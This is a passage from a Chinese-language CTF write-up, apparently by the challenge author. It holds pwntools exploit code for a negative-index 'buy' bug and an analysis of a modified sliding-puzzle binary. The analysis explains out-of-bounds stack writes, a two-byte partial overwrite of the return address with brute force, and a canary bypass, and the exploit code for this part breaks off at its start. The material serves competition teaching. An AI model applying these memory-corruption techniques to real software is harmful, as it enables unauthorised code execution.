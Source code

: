 ```py
    sleep(0.1)
    r.sendlineafter("?\n",str(idx).encode())
    sleep(0.1)
    r.sendafter("name!\n",name)
    sleep(0.1)


buy(-72, b'otto')

buy(-90, b'AAAA')

r.sendline("666")
r.sendline("a")
r.sendline("3")

r.sendlineafter("buy?",'4')
r.sendline("-")
sleep(0.1)
r.sendline("-")
sleep(0.1)
r.sendline("-")
sleep(0.1)

#debug()

r.sendline(str(bkdoor).encode())

r.interactive()
```

随便写写就好了.

---

解题情况和我的预期差不多, 懂 trick 的人随手秒了, 然后几个 23 来做题的也在 get 知识点后很快出了, 挺好.

## game

一道数字华容道的题目，把一个正常的游戏改了一下，上下移动没有边界，为了人性化一点，给了个backdoor。（还可以出revenge，不过没必要，也就只是增加工作量

### 思路分析

由于移动次数有限，因此需要先利用越界将移动次数改大。然后就可以在栈里面随便修改了，目标就是把返回地址修改为backdoor地址，可以只修改返回地址的两个字节来1/16爆破，backdoor的尾部两个字节可以提前写入在name中。canary绕过就只需要往下移动修改完返回地址之后，再往上移动复位即可。

同时，数字华容道可以在网上找到自动解法，给定初始状态，即可获得解法。（手动玩也可以
[数字华容道 (dpxx.github.io)](https://dpxx.github.io/)

### exp

```python
from pwn import*
#context.log_level = 'debug'

def pwn():
    global io
    #io = remote('localhost', 46523)
    io = process('./game')

    #attach(io)
    #pause()

    #name
    io.sendline(p16(0x9cd8)*10)
    #enter
```